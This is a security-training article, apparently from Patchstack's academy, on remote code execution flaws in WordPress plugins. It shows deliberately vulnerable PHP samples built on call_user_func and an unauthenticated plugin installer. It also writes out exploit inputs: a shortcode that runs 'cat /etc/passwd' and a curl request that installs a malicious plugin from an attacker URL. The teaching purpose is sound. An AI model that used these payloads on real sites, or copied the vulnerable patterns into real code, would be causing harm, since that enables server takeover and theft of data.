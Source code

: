```yaml
---
title: Remote Code Execution (RCE)
head:
    - tag: title
      content: Learn about Remote Code Execution (RCE)
contributors:
    - rafiem
    - dhakalananda
---
```




## Introduction

This article covers cases of possible direct RCE on WordPress. This includes improper usage of functions inside the plugin/theme, which can be used to directly execute code or a command on the server.

<LinkCard
  title="Learn how to secure your code against RCE"
  href="/academy/wordpress/securing-code/remote-code-execution/"
/>

## Useful Functions

Several functions could be useful to identify a possible RCE vulnerability:

- [`system`](https://www.php.net/manual/en/function.system.php)
- [`exec`](https://www.php.net/manual/en/function.exec.php)
- [`shell_exec`](https://www.php.net/manual/en/function.shell-exec.php)
- [`passthru`](https://www.php.net/manual/en/function.passthru.php)
- [`proc_open`](https://www.php.net/manual/en/function.proc-open.php)
- [`eval`](https://www.php.net/manual/en/function.eval.php)
- [`call_user_func`](https://www.php.net/manual/en/function.call-user-func.php)
- [`call_user_func_array`](https://www.php.net/manual/en/function.call-user-func-array.php)
- [`create_function`](https://www.php.net/manual/en/function.create-function.php) *DEPRECATED as of PHP 7.2.0, and REMOVED as of PHP 8.0.0*

## Dynamic Function Call

PHP also supports a dynamic function call where we can execute a function from a string or variable. For example:

```php
$action_type = $_GET["action"];
$input = $_GET["input"];

echo $action_type($input);
```

We can supply the `action` parameter with an arbitrary function, such as `system`, and put our shell command on the `input` parameter.

## Example Cases

Below is an example of vulnerable code:

```php
function image_render_callback($atts) {
	$atts = shortcode_atts( array(
		'sanitize' => 'esc_attr',
		'src'=>'',
        'text'=>''
	), $atts);

    $chosen_callback = "esc_attr";
    $sanitize_callback = array("trim", "esc_attr", "esc_html", "sanitize_text_field");
    if(!in_array($atts["sanitize"], $sanitize_callback)){
        $chosen_callback = $atts["sanitize"];
    }

    if ( ! empty( $chosen_callback ) && is_callable( $chosen_callback ) ) {
        $text = call_user_func( $chosen_callback, $atts["text"] );
    }

    return sprintf("<img src='%s'>%s</img>", esc_attr($atts["src"]), esc_html($text));

}

add_shortcode("imagerender", "image_render_callback");
```

To exploit this, the Contributor+ role user needs to create a drafted post with the below content to trigger RCE via the `call_user_func` function:

```json
[imagerender src="https://patchstack.com" sanitize="system" text="cat /etc/passwd"]
```

## Arbitrary Plugin Installation

If there is no proper permission check while installing the plugins, it can lead to Remote Code Execution. An attacker can create a malicious ZIP and provide it as the source to install the webshell in the WordPress site.

```php
add_action('wp_ajax_nopriv_install_remote_plugin', function() {
    if (isset($_GET['install_plugin_url'])) {
        $plugin_url = esc_url_raw($_GET['install_plugin_url']);

        include_once ABSPATH . 'wp-admin/includes/class-wp-upgrader.php';
        include_once ABSPATH . 'wp-admin/includes/file.php';
        include_once ABSPATH . 'wp-admin/includes/misc.php';

        $upgrader = new Plugin_Upgrader();
        $upgrader->install($plugin_url);
    }
});
```

To exploit this, any unauthenticated user needs to perform a GET request to the `/wp-admin/admin-ajax.php` endpoint specifying the remote URL of the malicious plugin.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=install_remote_plugin&install_plugin_url=http://<malicious-url>
```

Below are some of the findings related to RCE:

- [Authenticated RCE in JetElements For Elementor Plugin](https://patchstack.com/articles/authenticated-rce-in-jetelements-for-elementor-plugin/)
- [Critical RCE Patched in Bricks Builder Theme](https://patchstack.com/articles/critical-rce-patched-in-bricks-builder-theme/)
- [Critical Vulnerability Found in GOTMLS Plugin](https://patchstack.com/articles/critical-vulnerability-found-in-gotmls-plugin/)
- [Unpatched Authenticated RCE in Oxygen and Breakdance Builder](https://patchstack.com/articles/unpatched-authenticated-rce-in-oxygen-and-breakdance-builder/)